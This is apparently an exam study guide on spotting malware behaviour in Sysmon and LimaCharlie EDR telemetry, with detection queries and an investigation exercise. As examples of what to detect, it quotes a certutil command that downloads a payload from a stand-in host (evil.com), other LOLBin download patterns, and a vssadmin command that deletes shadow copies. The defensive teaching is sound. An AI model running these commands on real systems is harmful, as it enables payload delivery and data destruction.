





# Observing Malware Behavior via EDR Telemetry

## TCM Exam Objectives

- Identify behavioral telemetry events in EDR for malware analysis
- Correlate process creation, network connections, and file modifications across Sysmon and LimaCharlie
- Detect LOLBin abuse via anomalous parent-child relationships
- Identify C2 communication patterns including beaconing and DNS tunneling
- Detect process injection and credential dumping via Sysmon Event IDs 8, 10 and LimaCharlie events
- Recognize lateral movement indicators (SMB, WinRM, PsExec)
- Trace data exfiltration via archive-then-upload sequences
- Use ProcessGuid (Sysmon) and routing/this (LimaCharlie) for cross-event correlation
- Apply the PSAA EDR telemetry investigation workflow from initial alert to incident report

EDR telemetry provides continuous, verb-level recording of everything that happens on an endpoint: processes created, DLLs loaded, files written, registry keys modified, network connections made. Unlike signature-based antivirus, EDR telemetry provides the raw behavioral data to identify malicious activity even when the binary is unknown or file-less, and to reconstruct the full attack chain from initial access to exfiltration [turn0search0] [turn0search3].

- Core behavioral events mapped to MITRE ATT&CK techniques
- Observing initial execution and LOLBin abuse
- Detecting persistence mechanisms (Run keys, services, scheduled tasks)
- Identifying C2 communication patterns (beaconing, DNS tunneling)
- Spotting process injection and credential dumping
- Recognizing lateral movement and data exfiltration
- Correlating behavior across telemetry using ProcessGuid and routing/this
- The PSAA EDR telemetry investigation workflow



## 1. Core Behavioral Events Every Analyst Must Know

Malware, regardless of its sophistication, must execute code, talk to the network, modify the system, or touch files. These actions always generate telemetry.

| Malware Behavior | MITRE Tactic | Sysmon Event ID | LimaCharlie Event Type | Windows Event Log |
| :--- | :--- | :--- | :--- | :--- |
| **Process creation** | Execution | 1 (ProcessCreate) | `NEW_PROCESS` | Security 4688 |
| **Malicious command line** | Execution | 1 CommandLine | `event/COMMAND_LINE` | 4688 Process Command Line |
| **DLL load (hijacking)** | Persistence, Privilege Escalation | 7 (Image Loaded) | (via WEL adapter) | - |
| **Process injection** | Defense Evasion, Privilege Escalation | 8 (CreateRemoteThread), 10 (ProcessAccess) | `NEW_REMOTE_THREAD`, `SENSITIVE_PROCESS_ACCESS` | - |
| **Network connection** | C2, Exfiltration | 3 (NetworkConnect) | `NETWORK_CONNECTIONS` | - |
| **DNS query** | C2 | 22 (DnsQuery) | `DNS_REQUEST` | - |
| **File creation** | Persistence, Delivery | 11 (FileCreate) | `FILE_CREATE` | - |
| **Registry modification** | Persistence | 13 (RegistryValueSet), 12 | `REGISTRY_WRITE`, `REGISTRY_CREATE`, `REGISTRY_DELETE` | - |
| **Service installation** | Persistence | 13 (service key) or System 7045 | `SERVICE_CHANGE` or `WEL` with 7045 | System 7045 |
| **Scheduled task** | Persistence | 13 (task cache) or Security 4698 | `WEL` with 4698 | Security 4698 |
| **Code identity** | Delivery | - | `CODE_IDENTITY` | - |
| **Timestomping** | Defense Evasion | 2 (FileCreateTime) | `FILE_MODIFIED` (time attribute change) | - |

---

> 📌 **Exam Tip:** On the PSAA exam, remember that Sysmon's ProcessGuid and LimaCharlie's routing/this serve the same correlation purpose but use different syntax. ProcessGuid is a GUID field found in every Sysmon event; routing/this is a hash found in every LimaCharlie event. Both let you pivot from process creation to network, file, and registry events — the single most important investigation technique.</details>

## 2. Observing Specific Malware Behaviors

### 2.1 Initial Execution and LOLBin Abuse

Malware rarely arrives as a raw `.exe` double-clicked by the user. Instead, it uses a legitimate Windows binary (Living-off-the-Land Binary) to download and execute the final payload. The hallmark of this behavior is an **anomalous parent-child relationship** and a suspicious command line.

**Example attack chain:**
```
winword.exe -> cmd.exe -> certutil.exe (downloads payload) -> payload.exe
```

**What to observe:**
- A Microsoft Office application (`winword.exe`, `excel.exe`) spawning a shell (`cmd.exe`, `powershell.exe`) or script host (`wscript.exe`, `mshta.exe`)
- Command lines containing `certutil -urlcache -f`, `bitsadmin /transfer`, `powershell -EncodedCommand`, `mshta http://...`, `rundll32 javascript:...`
- The final payload executing from a user-writable directory like `C:\Users\*\AppData\Local\Temp\`

**Sysmon Query (PowerShell):**
```powershell
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object {
        $_.Properties[20].Value -like "*WINWORD.EXE" -and
        $_.Properties[4].Value -like "*cmd.exe"
    }
```

**LimaCharlie LCQL:**
```
-7d | plat == windows | NEW_PROCESS | event/PARENT/FILE_PATH contains "WINWORD.EXE" and event/FILE_PATH contains "cmd.exe"
```

### 2.2 Persistence Mechanisms

Once malware gains a foothold, it must survive reboots. The most abused persistence locations are **Run keys**, **Windows services**, **scheduled tasks**, and the **Startup folder**.

**What to observe:**
- **Registry Run key modified:** Sysmon Event ID 13 on `*\CurrentVersion\Run*`. LimaCharlie `REGISTRY_WRITE` on the same path.
- **New service installed:** Sysmon Event ID 13 on `HKLM\System\CurrentControlSet\Services` or System Event ID 7045. LimaCharlie `SERVICE_CHANGE` or `WEL` with 7045.
- **Scheduled task created:** Security Event ID 4698.
- **File created in Startup folder:** Sysmon Event ID 11 on `*Start Menu\Programs\Startup*`.

| Persistence Type | Sysmon Event | LimaCharlie Event | Key Field to Check |
|:---|:---|:---|:---|
| Registry Run key | 13 | `REGISTRY_WRITE` | `*\CurrentVersion\Run*` |
| Windows Service | 13, System 7045 | `SERVICE_CHANGE`, `WEL` | `HKLM\System\...\Services` |
| Scheduled Task | 13, Security 4698 | `WEL` with 4698 | Task XML content |
| Startup Folder | 11 | `FILE_CREATE` | `*Start Menu\Programs\Startup*` |
| WMI Persistence | 1, 11 | `NEW_PROCESS`, `WEL` | WMI event subscriptions |

### 2.3 Command and Control (C2) Communication

Malware needs to phone home. The telemetry shows **outbound network connections** from the malicious process and often **DNS queries** resolving the C2 domain immediately beforehand.



**What to observe:**
- A non-system process making outbound connections on unusual ports (4444, 1337, 8080, 8443)
- Periodic connections at regular intervals (beaconing) -- visible by sorting connections by timestamp
- DNS queries for clearly malicious domains (DGA-generated, typosquatted, newly registered) or unusually long subdomains (DNS tunneling)
- A process with `LISTENING` state on a high port (bind shell)

**LimaCharlie LCQL:**
```
# Network connections on suspicious ports
-24h | * | NETWORK_CONNECTIONS | event/NETWORK_ACTIVITY/REMOTE_PORT in [4444, 1337, 8080, 8443]

# DNS queries for high-entropy domains (tunneling)
-24h | * | DNS_REQUEST | length(event/DOMAIN_NAME) > 40

# Beacon detection: group connections by process and destination
-24h | * | NETWORK_CONNECTIONS | group_by(routing/this, event/NETWORK_ACTIVITY/REMOTE_IP) | count() > 10
```

### 2.4 Process Injection and Defense Evasion

Sophisticated malware does not run malicious code in its own process; it injects into trusted processes like `explorer.exe`, `svchost.exe`, or `lsass.exe`.

**What to observe:**
- Event ID 8: `SourceImage` is a suspicious executable (e.g., from `%TEMP%`) and `TargetImage` is a critical system process
- Event ID 10: `TargetImage` is `lsass.exe` and `GrantedAccess` includes `0x1400`, `0x143A`, or `0x1FFFFF` (credential dumping)
- Event ID 7: An unsigned DLL loaded by a signed Microsoft process from a user-writable path (DLL side-loading)

**Sysmon query for credential dumping:**
```powershell
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=10]]" |
    Where-Object { $_.Properties[8].Value -like "*lsass.exe" }
```

**LimaCharlie LCQL for injection:**
```
-24h | * | NEW_REMOTE_THREAD | event/TARGET/FILE_PATH contains "lsass.exe"
-24h | * | SENSITIVE_PROCESS_ACCESS | event/TARGET/FILE_PATH contains "lsass.exe"
```

### 2.5 Lateral Movement

After compromising one host, attackers move to others via SMB (port 445), WinRM (ports 5985/5986), or remote service creation (PsExec).

**What to observe:**
- A non-core Windows service process making outbound SMB connections to multiple internal IPs
- `PSEXESVC.exe` being created as a service on a target
- `wsmprovhost.exe` spawning from a remote session
- Use of `net use`, `xcopy`, or `sc \\target create` in command lines

**LimaCharlie LCQL for lateral movement:**
```
-24h | * | NETWORK_CONNECTIONS | event/NETWORK_ACTIVITY/REMOTE_PORT == 445 and event/FILE_PATH not contains "System32"
```

### 2.6 Data Exfiltration

Stolen data leaves the network. The telemetry shows outbound connections with large uploads, archiving tools run before the transfer, or cloud storage CLI tools.

**What to observe:**
- `cmd.exe` or `powershell.exe` calling `curl -T`, `wput`, `scp`, or `rsync` to an external IP
- `rar.exe`, `7z.exe`, `winzip.exe` creating an archive in a temp folder immediately followed by a large network upload
- DNS TXT queries with abnormally long strings (data over DNS)

**LimaCharlie LCQL to chain archive and network:**
```
-24h | * | NEW_PROCESS | event/COMMAND_LINE contains "rar.exe a " or event/COMMAND_LINE contains "7z a "
```
Then take the `routing/this` of that archive process and query `NETWORK_CONNECTIONS` for that hash to see if it uploaded the archive.

---

## 3. Correlating Behavior: Following the Process Across All Telemetry

A single malware binary generates multiple events across different event types. Following the unique process identifier across all those events is the single most important technique [turn0search4].

| Platform | Process Identifier | How to Pivot |
| :--- | :--- | :--- |
| **Sysmon** | **ProcessGuid** | Copy the `ProcessGuid` from Event ID 1, then search for that GUID in Event IDs 3, 7, 8, 10, 11, 13, 22 |
| **LimaCharlie** | **routing/this** | Use the hash from a `NEW_PROCESS` event and filter any other event type with `routing/this == "the_hash"` |
| **Windows Event Logs** | **ProcessId** (less reliable; PIDs recycle) | Use `ProcessId` and strict time windows to correlate |



**Correlation workflow in Sysmon:**
1. Find suspicious process creation (Event ID 1). Note the `ProcessGuid`
2. Query Event ID 3 where `ProcessGuid` matches -> every network connection
3. Query Event ID 11 where `ProcessGuid` matches -> every file dropped
4. Query Event ID 13 where `ProcessGuid` matches -> every registry key modified
5. Query Event ID 1 where `ParentProcessGuid` matches -> every child process spawned

**LimaCharlie workflow:**
1. `NEW_PROCESS` -> copy `routing/this`
2. `NETWORK_CONNECTIONS` with `routing/this` -> C2
3. `DNS_REQUEST` with `routing/this` -> domain resolution
4. `FILE_CREATE` with `routing/this` -> payloads dropped
5. `REGISTRY_WRITE` with `routing/this` -> persistence
6. `NEW_PROCESS` with `routing/parent` = that hash -> children

---

> 📌 **Exam Tip:** When asked to reconstruct a full attack timeline on the PSAA exam, always start with the suspicious Process Creation event (Sysmon Event ID 1 or LimaCharlie NEW_PROCESS). Copy the ProcessGuid or routing/this hash, then systematically query network (Event 3 / NETWORK_CONNECTIONS), file (Event 11 / FILE_CREATE), and registry (Event 13 / REGISTRY_WRITE) events. This ProcessGuid-first approach is the standardized workflow tested in the PSAA.

## 4. The PSAA EDR Telemetry Investigation Workflow



### Phase 1: Isolate the Initial Malicious Process

Search `NEW_PROCESS` (or Event ID 1) for known-bad indicators: command lines with `certutil -urlcache`, `-EncodedCommand`, executables in `%TEMP%`. Note the process's full `FILE_PATH`, `COMMAND_LINE`, `USER_NAME`, and `routing/this` (or ProcessGuid).

### Phase 2: Reconstruct the Process Tree

Find the parent process (via `routing/parent` or `ParentProcessGuid`). Recursively walk up to the root to see the initial infection vector (e.g., `winword.exe`, `wscript.exe`). Find all child processes (where `routing/parent` = current `routing/this`).

### Phase 3: Trace All System Modifications

For each malicious process, query:
- **Network** -> list remote IPs, ports, domains
- **File** -> list created/modified files (payloads, scripts, stolen data)
- **Registry** -> list modified keys (Run, Services, Winlogon)
- **DLL Loads / Injection** -> note which processes were compromised

<details>
<summary>Behavioral Analysis Pattern Examples</summary>

**Pattern 1: Macro Downloader Behavior**
- Process tree: `winword.exe -> cmd.exe -> powershell.exe -enc`
- Network: HTTP GET to external IP on port 80 from `powershell.exe`
- File: `.ps1` or `.exe` created in `%TEMP%`
- Persistence: Registry Run key pointing to temp file

**Pattern 2: Ransomware Behavior**
- Process tree: Normal application launching `powershell.exe` or `wscript.exe`
- File: Mass `FILE_MODIFIED` events with changed extensions (`.locked`, `.encrypt`)
- Registry: Often no persistence (ransomware is destructive, not persistent)
- Defense Evasion: `vssadmin.exe Delete Shadows /All /Quiet` in command lines

**Pattern 3: C2 Beacon Behavior**
- Network: `NETWORK_CONNECTIONS` to same external IP:port at regular intervals (60s, 300s)
- DNS: Domain resolves to different IPs over time (fast flux)
- Process: Often from `svchost.exe` or a process in `%APPDATA%`
- File: May drop configuration file with C2 settings

**Pattern 4: Data Exfiltration Behavior**
- Process: `rar.exe`, `7z.exe`, or `powershell.exe` accessing document folders
- File: Archive created in temp or user folder
- Network: Large `NETWORK_CONNECTIONS` uploads to external IP
- DNS: TXT queries with encoded data in subdomains
</details>

### Phase 4: Identify Persistence

Specifically look at Registry `*Run*` keys, `Services` keys, and startup folder file creations. This tells how the malware survives reboot.

### Phase 5: Scope the Impact

- Document every external IP and domain
- Document every internal IP contacted (lateral movement)
- Document every file path that contains malware

### Phase 6: Write the Incident Report

Every conclusion must tie back to a specific telemetry event [turn0search10]:

> **Observable Behavior:** The malware `payload.exe` (PID 3456) was created by `certutil.exe` (PID 9012), which was spawned by `cmd.exe` (PID 5678), originally launched by `winword.exe`.
> **Evidence:** Sysmon Event ID 1, timestamp 14:20:07, `ParentImage: cmd.exe`, `Image: certutil.exe`, `CommandLine: certutil -urlcache -f http://evil.com/payload.exe...`
> **Network:** Sysmon Event ID 3, `ProcessGuid: {GUID}`, `DestIp: evil.com:80`.
> **Persistence:** Sysmon Event ID 13, `TargetObject: HKCU\...\Run\Updater`, `Details: C:\Users\brolf\AppData\Local\Temp\payload.exe`.

---

## 5. Hands-On Exercise

**Scenario:** A Sysmon EVTX file from `DESKTOP-ABC123` is provided. A SIEM alert indicated that `powershell.exe` executed an encoded command. The full malware behavior must be observed.

### Step 1: Find the Initial PowerShell Event

```powershell
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object { $_.Properties[4].Value -like "*powershell.exe" -and $_.Properties[5].Value -like "*-EncodedCommand*" }
```

Note the ProcessGuid (`GUID_PS`), ParentProcessGuid (`GUID_PARENT`), and CommandLine.

### Step 2: Identify the Parent

```powershell
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object { $_.Properties[6].Value -eq $GUID_PARENT }
```

The parent is `wscript.exe` running a `.vbs` script in `%TEMP%`.

### Step 3: Trace the PowerShell's Actions

```powershell
# Child processes
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=1]]" |
    Where-Object { $_.Properties[7].Value -eq $GUID_PS }

# Network connections
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=3]]" |
    Where-Object { $_.Properties[4].Value -eq $GUID_PS }

# File creations
Get-WinEvent -Path sysmon.evtx -FilterXPath "*[System[EventID=11]]" |
    Where-Object { $_.Properties[4].Value -eq $GUID_PS }
```

Findings: a child process `certutil.exe` downloaded `payload.exe`, a network connection to `evil.com`, and a file created `payload.exe` in `%TEMP%`.

### Step 4: Persistence

Search Event ID 13 for modifications by the ProcessGuid of `payload.exe`. A Run key set is discovered.

### Step 5: Document the Behavioral Summary

> **Malware Behavior Summary:**
> 1. A VBScript (`%TEMP%\macro.vbs`) was executed by `wscript.exe`
> 2. `wscript.exe` launched `powershell.exe -EncodedCommand <base64>`
> 3. PowerShell spawned `certutil.exe` to download a payload from `evil.com`
> 4. `payload.exe` was dropped to `%TEMP%` and executed
> 5. `payload.exe` established persistence via a Run key
> 6. **Conclusion:** Macro-driven downloader with persistence. **Severity: Critical.**

---

## 6. Quick-Reference Cheat Sheet

### Critical Sysmon Events for Behavior Observation

| Behavior | Event ID(s) | Key Fields |
| :--- | :--- | :--- |
| Process creation | 1 | `Image`, `CommandLine`, `ParentImage`, `ProcessGuid`, `ParentProcessGuid`, `User`, `Hashes` |
| Network connection | 3 | `Image`, `SourceIp`, `DestIp`, `DestPort`, `ProcessGuid` |
| DNS query | 22 | `Image`, `QueryName`, `QueryResults`, `ProcessGuid` |
| DLL loaded | 7 | `Image`, `ImageLoaded`, `Signed`, `ProcessGuid` |
| Remote thread | 8 | `SourceImage`, `TargetImage`, `SourceProcessGuid`, `TargetProcessGuid` |
| Process access | 10 | `SourceImage`, `TargetImage`, `GrantedAccess`, `SourceProcessGuid`, `TargetProcessGuid` |
| File creation | 11 | `Image`, `TargetFilename`, `ProcessGuid` |
| Registry value set | 13 | `Image`, `TargetObject`, `Details`, `ProcessGuid` |
| File time change | 2 | `Image`, `TargetFilename`, `PreviousCreationUtcTime`, `NewCreationUtcTime` |

### LimaCharlie High-Priority Event Types

| Event Type | Primary Use |
| :--- | :--- |
| `NEW_PROCESS` | Process creation and parent-child analysis |
| `NETWORK_CONNECTIONS` | C2, exfiltration, lateral movement |
| `DNS_REQUEST` | Domain resolution, tunneling, DGA |
| `FILE_CREATE` | Dropped payloads, script files |
| `REGISTRY_WRITE` | Persistence, ASEP modification |
| `NEW_REMOTE_THREAD` | Process injection |
| `SENSITIVE_PROCESS_ACCESS` | Credential dumping (access to LSASS) |
| `SERVICE_CHANGE` | Malicious service persistence |
| `WEL` | Windows Event Logs forwarded from the endpoint |

### Common Malicious Indicators in Telemetry

| Indicator | Where to Look |
| :--- | :--- |
| `certutil -urlcache -f http://...` | `NEW_PROCESS` command line |
| `powershell -EncodedCommand` | `NEW_PROCESS` command line |
| Executable running from `%TEMP%`, `%APPDATA%`, `C:\Users\Public\` | `NEW_PROCESS` image path |
| `lsass.exe` accessed by non-system process | `SENSITIVE_PROCESS_ACCESS` or Event ID 10 |
| Unsigned DLL loaded from user folder | Event ID 7 where `Signed == false` and `ImageLoaded` contains `Users` |
| Run key set to `%TEMP%\evil.exe` | `REGISTRY_WRITE` with `CurrentVersion\Run` |
| Service created with binary in temp | `SERVICE_CHANGE` or Event ID 7045 with `ImagePath` containing `Temp` |
| Frequent outbound connections on high ports | `NETWORK_CONNECTIONS` to ports 4444, 1337, 8080, 8443 |

### Correlation Keys

| Platform | Key | How to Use |
| :--- | :--- | :--- |
| Sysmon | `ProcessGuid` | Filter any Event ID where the `ProcessGuid` field matches |
| LimaCharlie | `routing/this` | Filter any event type with `routing/this == "hash"` |
| LimaCharlie | `routing/parent` | Find the parent process of any event |
| LimaCharlie | `routing/target` | In injection/access events, find the target process |

---



## Recap

EDR telemetry provides the behavioral breadcrumbs to reconstruct an attacker's actions from the traces left behind [turn0search7] -- process starts, network calls, file writes, registry tweaks. Anomalous parent-child relationships are the number one behavioral red flag. Following the process identifier everywhere (Sysmon's ProcessGuid or LimaCharlie's `routing/this`) turns isolated events into a storyline. Knowing the event IDs and field names cold is essential. Correlating network connections with DNS queries and file writes reveals the full picture. Persistence is the attacker's re-entry ticket -- always check for Run keys, services, scheduled tasks, and startup folder files. Documenting behavioral observations with specific event references produces professional incident reports.